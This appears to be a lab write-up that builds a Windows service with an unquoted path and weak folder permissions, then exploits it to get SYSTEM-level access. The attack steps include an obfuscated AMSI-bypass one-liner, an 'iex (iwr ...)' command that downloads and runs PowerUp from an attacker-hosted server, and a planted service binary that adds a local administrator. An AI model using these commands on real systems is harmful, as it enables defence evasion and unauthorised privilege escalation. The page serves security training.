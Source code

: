 ```yaml
---
description: >-
  We will create a service with a Unquoted Service Path to escalate privileges
  from a low privileges user account to SYSTEM.
---
```


# Unqouted Service Path

## Configuring

1. Login to `WS01` as the `Administrator` user with password `Welcome01!`.
2. Start PowerShell as administrator and run the following commands to create a service:

* Name = `Service`
* Executable path = `C:\Program Files\bin folder\program\bin x64\Service.exe`
* Start = `auto`

```
sc.exe create "Service" binpath= "C:\Program Files\bin folder\program\bin x64\Service.exe" start= auto
```

![](<../../../.gitbook/assets/image (11) (1) (1).png>)

3\. Run the following command to create the folders for the service:

```
mkdir "C:\Program Files\bin folder\program\bin x64"
```

![](<../../../.gitbook/assets/image (10) (1) (2).png>)

4\. Run icacls to check the current permissions on the directories with a space in it:

```
icacls.exe "C:\Program Files\bin folder"
icacls.exe "C:\Program Files\bin folder\program\bin x64"
```

![](<../../../.gitbook/assets/image (15) (2).png>)

Currently the low privileged users can't create any files in the directories with a space. BUILTIN\Users has (RX) privileges. Which is **RX** (read and execute access). For more information about the icacls access rights check out [this SuperUser](https://superuser.com/questions/322423/explain-the-output-of-icacls-exe-line-by-line-item-by-item) post.

5\. Run icacls to give the `BUILTIN\Users` write permissions on `C:\Program Files\bin folder\program`.

```
icacls.exe "C:\Program Files\bin folder\program" /grant BUILTIN\Users:W
```

![](<../../../.gitbook/assets/image (8) (1) (1) (1).png>)

6\. Run icacls again the check the permissions on the directory:

```
icacls.exe "C:\Program Files\bin folder\program"
```

![](<../../../.gitbook/assets/image (3) (1) (1) (1).png>)

## Attacking

### How it works

When a service exists whose executable path contains spaces and it isn't enclosed within quotes it could be used to run an executable of our choice. This is because if the service is not enclosed within quotes and it has spaces, it would handle the space as a break and pass the rest of the service path as an argument.

If the filename is a long string of text which contains spaces, and is not enclosed within quotation marks, the filename will be executed in the order from left to right until the space is reached and will append `.exe` at the end of this spaced path. For example, consider we have the following path:

`C:\Program Files\A Folder\B Folder\C Folder\Program.exe`

Windows will try to execute the following:

1. `C:\Program Files\A.exe`
2. `C:\Program Files\A Folder\B.exe`
3. `C:\Program Files\A Folder\B Folder\C.exe`
4. `C:\Program Files\A Folder\B Folder\C Folder\Program.exe`

### Tools

* Icacls.exe
* [PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)

### Executing the attack

#### Powerup

1. Download PowerUp on your attacking machine and host it on a webserver

```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
python3 -M http.server 8090
```

![](<../../../.gitbook/assets/image (43) (1) (1) (1) (1).png>)

2\. Login on `WS01` with the user `John` and the password `Welcome2022!.`

```
evil-winrm -i 10.0.0.128 -u john -p 'Welcome2022!'
```

3\. Open Powershell, execute a amsi bypass such ass the one below and download PowerUp into memory with `iex` and `iwr` (`Invoke-Expression` and `Invoke-WebRequest`)

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
iex (iwr http://192.168.248.2:8090/PowerUp.ps1 -usebasicparsing)
```

![](<../../../.gitbook/assets/image (2) (1) (1).png>)

4\. Execute `Invoke-AllChecks` to run all the checks from `PowerUp`.

![](<../../../.gitbook/assets/image (23) (1) (1) (1).png>)

5\. The output tells us there is a service with the name `Service` and it has a **unqouted** service path (`C:\Program Files\bin folder\program\bin x64\service.exe`).

6\. To check if we can write a binary in one of the folders check the permissions the folders before the one with a space in it. Since we need to write the binaries `C:\Program Files\bin.exe` or `C:\Program Files\bin folder\program\bin.exe`.

```
icacls.exe "C:\Program Files"
icacls.exe "C:\Program Files\bin folder\program"
```

We have no write permissions in `C:\Program Files`:

![](<../../../.gitbook/assets/image (52) (1) (1) (1).png>)

But we do have write permissions in `C:\Program Files\bin folder\program`.

![](<../../../.gitbook/assets/image (20) (1).png>)

7\. To abuse this run the following command from PowerUp, which will create a executable `bin.exe` in the path `C:\Program Files\bin folder\program` which will add a new local administrator.

```
Write-ServiceBinary -ServiceName 'Service' -ServicePath 'C:\Program Files\bin folder\program\bin.exe' -Username 'privesc' -Password "Welcome2022!" 
```

![](<../../../.gitbook/assets/image (22) (1) (1).png>)

8\. Our current user can't start the service, which means we should restart the machine and check if the user `privesc` is created.

![](<../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1).png>)

![](<../../../.gitbook/assets/image (9) (1) (1) (1) (1).png>)

9\. Start a new PowerShell session as Administrator and fill in the credentials `privesc:Welcome2022!`.

![](<../../../.gitbook/assets/image (47) (1) (1) (1) (1).png>)

![](<../../../.gitbook/assets/image (39) (1) (1) (1) (1).png>)

#### Cleanup

Remove the user privesc and the binary

```
Remove-Item C:\Program Files\bin folder\program\bin.exe
net user privesc /del
```

## Defending

### Recommendations

* Periodically check for vulnerable services and directory permissions.

### Detection



## References

{% embed url="https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae" %}

{% embed url="https://superuser.com/questions/322423/explain-the-output-of-icacls-exe-line-by-line-item-by-item" %}

{% embed url="https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1" %}

